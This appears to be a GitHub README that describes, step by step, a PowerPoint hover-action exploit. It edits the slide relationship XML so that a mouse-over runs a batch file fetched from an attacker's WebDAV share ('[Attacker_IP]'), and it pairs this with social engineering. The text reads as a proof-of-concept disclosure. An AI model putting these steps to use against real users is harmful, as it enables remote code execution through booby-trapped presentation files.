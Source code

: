 "# Hover_with_Power" 

## Steps to reproduce the exploit

1. In Powerpoint it is possible to set an action on a mouse over or mouse click 

2. We can set a file to be executed and this was exploited by attackers in 2017 where a particular powershell command could be run 

3. Since that vulnerability was patched, this one is an extension to it where instead of using "Run Program" action we use "HyperLink To" action and set it to a "Other file"

4. Then we can select a file within the system.

5. Save the Powerpoint file as PPSX or PPS

6. Then open the PPSX file using a ZIP program and change the value in "\ppt\slides_rels\slide1.xml.rels"  of rID which is connected to your mouse over event to "file:///\[Attacker_IP]\webdavfolder\file.bat"

7. Due to the way SMB connections work in Windows 10, SMB connections over Internet are possible even if SMB ports (445/139) are closed  if a webserver supporting WEBDAV extension is hosted by an attacker

8. Now hover over your the text and observe that user just needs to acccept the pop-ups and this allows the program to be executed

9. Combined with social engineering this attack would work completely.